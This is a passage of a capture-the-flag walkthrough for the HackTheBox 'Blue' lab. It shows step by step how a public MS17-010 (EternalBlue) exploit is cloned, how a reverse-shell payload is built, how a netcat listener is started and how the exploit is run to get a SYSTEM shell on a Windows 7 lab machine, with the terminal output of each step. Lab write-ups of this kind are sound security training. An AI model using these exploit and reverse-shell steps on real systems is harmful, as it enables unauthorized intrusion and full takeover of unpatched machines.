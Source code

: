 Do a git clone of the repo

> git clone [https://github.com/worawit/MS17-010.git](https://github.com/worawit/MS17-010.git)

This generates a folder, that contains 2 kernel shellcode files, and the main exploit(written in python).

Follow the instructions from the above mentioned website, for assembling the shellcode into binaries, to include in our exploit. These binaries consist of the shellcode, as well as the payload (our reverse shell), that would trigger the exploit, and send us a reverse shell.  
Nasm is the assembler that’s used here. We are creating 32-bit and 64-bit binaries and merging the two, into a single binary. This is useful, if the exploit is triggered against a machine with an unknown architecture (32-bit or 64-bit).

Before running the exploit, let’s set up a listener in a new terminal using netcat.

> **sudo nc -nvlp 443  
> **\[sudo\] password for kali:  
> listening on \[any\] 443 ..

Now, let’s run our exploit and get a shell! Make sure to include the IP address of the victim machine, and the generated binary, as the arguments to be used.

> **python eternalblue\_exploit7.py 10.10.10.40 sc\_all.bin**  
>  shellcode size: 2203  
>  numGroomConn: 13  
>  Target OS: Windows 7 Professional 7601 Service Pack 1  
>  SMB1 session setup allocate nonpaged pool success  
>  SMB1 session setup allocate nonpaged pool success  
>  good response status: INVALID\_PARAMETER  
> done

Ignore the INVALID\_PARAMETER error, as this doesn’t affect the success of the exploit.

Let’s go back to our terminal that’s running netcat, and we should have received a shell (Awesome!)

> **sudo nc -nvlp 443**  
>  \[sudo\] password for kali:   
>  listening on \[any\] 443 …  
>  connect to \[10.10.14.6\] from (UNKNOWN) \[10.10.10.40\] 49158  
>  Microsoft Windows \[Version 6.1.7601\]  
>  Copyright © 2009 Microsoft Corporation. All rights reserved.  
>    
> C:\\Windows\\system32>

If this hasn’t worked for you, run the exploit again (make sure, to revert the machine on HackTheBox to it’s original state).

Let’s double check the IP address and hostname of the victim machine. Also, as you can see, we are running with full SYSTEM privileges on the target machine.

> C:\\Windows\\system32>hostname  
>  hostname  
> **haris-PC**  
>    
>  C:\\Windows\\system32>  
>  C:\\Windows\\system32>ipconfig  
>  ipconfig  
>    
>  Windows IP Configuration  
>    
>    
>  Ethernet adapter Local Area Connection:  
>    
>  Connection-specific DNS Suffix . :   
>  IPv6 Address. . . . . . . . . . . : dead:beef::c4d9:ad53:c5c9:7e33  
>  Temporary IPv6 Address. . . . . . : dead:beef::2980:8ddc:2a48:dfea  
>  Link-local IPv6 Address . . . . . : fe80::c4d9:ad53:c5c9:7e33%11  
> **IPv4 Address. . . . . . . . . . . : 10.10.10.40**  